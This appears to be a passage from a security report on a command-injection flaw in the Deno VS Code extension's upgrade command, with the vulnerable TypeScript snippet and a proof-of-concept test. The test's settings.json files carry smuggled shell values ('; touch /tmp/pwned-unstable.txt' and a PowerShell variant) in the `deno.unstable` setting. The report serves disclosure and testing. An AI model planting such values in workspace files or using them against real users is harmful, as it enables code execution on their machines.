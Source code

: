 - **Source code analysis:**
    - **File:** `client/src/upgrade.ts`
    - **Function:** `denoUpgradePromptAndExecute`
    - **Code Snippet:**
      ```typescript
      export async function denoUpgradePromptAndExecute(context: ExtensionContext, extensionContext: DenoExtensionContext) {
        const config = vscode.workspace.getConfiguration(EXTENSION_NS);
        const args = ["upgrade"];
        const unstable = config.get("unstable") as string[] ?? []; // Unsanitized unstable features
        for (const unstableFeature of unstable) {
          args.push(`--unstable-${unstableFeature}`); // Directly using unstableFeature in command flag
        }
        // ... rest of the upgrade command execution using buildDenoTask and vscode.tasks.executeTask ...
      }
      ```
      - The `denoUpgradePromptAndExecute` function retrieves the `deno.unstable` setting from configuration.
      - It iterates through the `unstable` array and directly constructs command-line flags using each `unstableFeature` without any sanitization.
      - These constructed arguments are then used in the `deno upgrade` command, leading to potential command injection via malicious entries in `deno.unstable`.

- **Security test case:**
    1. Create a new folder named `vscode-deno-upgrade-rce-test`.
    2. Inside `vscode-deno-upgrade-rce-test`, create a folder `.vscode`.
    3. Inside `.vscode`, create a file `settings.json` with the following content to inject a command that creates a file named `pwned-unstable.txt` in the `/tmp` directory (or `%TEMP%` on Windows):
       ```json
       {
         "deno.enable": true,
         "deno.unstable": [
           "sloppy-imports",
           "; touch /tmp/pwned-unstable.txt"
         ]
       }
       ```
        (For Windows, use:
        ```json
        {
          "deno.enable": true,
          "deno.unstable": [
            "sloppy-imports",
            "; New-Item -ItemType file -Path %TEMP%\\pwned-unstable.txt"
          ]
        }
        ```
        )
    4. Open the `vscode-deno-upgrade-rce-test` folder in VSCode. Ensure Deno extension is enabled.
    5. Open the command palette (Ctrl+Shift+P or Cmd+Shift+P) and execute "Deno: Upgrade". You might need to have an older version of Deno CLI installed for the upgrade prompt to appear, or you can manually trigger the command if the prompt doesn't show up.
    6. Confirm the upgrade if prompted.
    7. After the upgrade process completes (or starts), check for the file named `/tmp/pwned-unstable.txt` (or `%TEMP%\\pwned-unstable.txt` on Windows) in the `/tmp` directory (or `%TEMP%` on Windows). If this file exists, it confirms command injection vulnerability via the `deno.unstable` setting during the upgrade process.
